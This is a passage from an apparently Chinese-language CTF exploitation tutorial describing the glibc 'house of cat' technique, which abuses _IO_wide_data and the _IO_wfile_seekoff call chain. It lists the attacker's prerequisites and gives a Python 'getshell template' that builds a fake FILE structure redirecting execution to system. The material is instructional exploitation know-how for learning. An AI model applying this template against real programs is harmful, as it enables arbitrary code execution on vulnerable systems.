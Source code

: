 ```python

    payload = fake_IO_file
    return payload
```

house of cat
------------

本质上跟house of apple的思想一致，都是利用\_IO\_wide\_data这样一个结构体，只不过使用了不同的利用链。这个方法是由[catfly师傅](https://bbs.kanxue.com/thread-273895.htm)首次提出，并出了2022年强网杯同名赛题。  
**条件：**

- 能够任意写一个可控地址。
- 能够泄露堆地址和libc基址。
- 能够触发IO流（FSOP或触发\_\_malloc\_assert），执行IO相关函数。  
    **利用链：** **\_IO\_wfile\_seekoff** -&gt; **\_IO\_switch\_to\_wget\_mode**  
    调用链源码如下，只需要绕过下图圈出的限制条件，即可达到利用。  
    `_IO_wfile_seekof`  
    ![image-20230205004705966.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-972ae4f81cae7f92a1b80f61cd44510a7055fe31.png)

`_IO_switch_to_wget_mode`  
![image-20230205004944251.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-7207c7189f3b09601208be40a5f73e57da009802.png)  
该函数利用了`_IO_WOVERFLOW` 这样一个宏，可以在gdb中查看汇编代码。

![image-20230205005206063.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-d0e8b8427bc2801833c62c556030f4ab945c171f.png)

**getshell模板**

```python
def house_of_cat(fake_IO_file_addr):
    fake_IO_file = flat(
        {
            0x20: [
                0, 0,
                1, 1,
                fake_IO_file_addr,  # rdx
                system
            ],
            0x58: 0,    # chain
            0x78: _IO_stdfile_2_lock,   # _lock
            0x90: fake_IO_file_addr + 0x30,     # _IO_wide_data
            0xb0: 1,    # _mode
            0xc8: _IO_wfile_jumps + 0x30,    # vtable _IO_wfile_seekoff
            0x100: fake_IO_file_addr + 0x40,    # fake_wide_jumps
        }
    )

    payload = fake_IO_file

    return payload
```
